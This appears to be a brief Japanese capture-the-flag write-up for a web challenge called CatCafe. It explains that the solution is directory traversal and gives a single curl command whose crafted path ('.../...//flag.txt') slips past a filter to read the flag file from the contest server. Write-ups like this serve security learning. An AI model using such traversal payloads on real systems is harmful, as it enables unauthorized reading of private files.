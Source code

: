 # CatCafe
簡単なウェブアプリケーションのソースが与えられる．

## 解答
- ディレクトリトラバーサルを行う．
  - `curl http://cat-cafe.2023.ricercactf.com:8000/img?f=.../...//flag.txt`
